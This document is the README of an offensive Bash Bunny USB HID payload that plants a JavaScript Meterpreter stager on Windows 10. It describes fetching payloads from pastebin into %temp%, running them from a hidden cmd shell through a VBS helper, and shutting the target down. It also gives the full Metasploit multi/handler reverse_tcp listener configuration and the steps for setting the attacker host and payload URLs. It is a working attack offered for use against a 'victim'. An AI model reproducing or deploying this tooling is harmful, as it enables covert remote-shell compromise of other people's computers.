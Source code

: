 JavaScript Meterpreter Stager Win x86_64

Author: subinacls
Version: Version 0.1
Target: Windows 10 x64

Description:

  Tested successful on Win10
  - Modified from original posted code:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
  - USB HID Attck that attempts HTTP download of two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  STAGE1():
    if payload does not exist on target:
      if inet connection:
        Attempts HTTPS connection to pastebin
          Grabs both payloads and save to %temp%
      else:
        Opens a cmd prompt, under current users context
          Echo contents to two files:
            BB-Meterpreter_winx64.js
            inv.vbs
  STAGE2():
    Executes hidden cmdshell via inv.vbs, launching payload
  STAGE3():
    Shutdown 0

Configuration:

  Listener:
    use exploit/multi/handler
    # use for x64
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    # use for x86
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 443
    set EnableUnicodeEncoding true
    set EnableStageEncoding true
    set ExitOnSession false
    exploit -j
  BashBunny:
    Edit JSRevMeter replacing the following:
      RHOST =>  Remote Listening Host
      RPORT =>  Remote Listening Port
      FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    Upload monilithic script to your BB

Status:

  LED	  =>  Status/PHASE
  Green	=>  Stage1/EXECUTING
  Red	  =>  Stage2/EXECUTING
  Blue  =>  Stage3/SHUTDOWN
  OFF   =>  Remove Device from victim
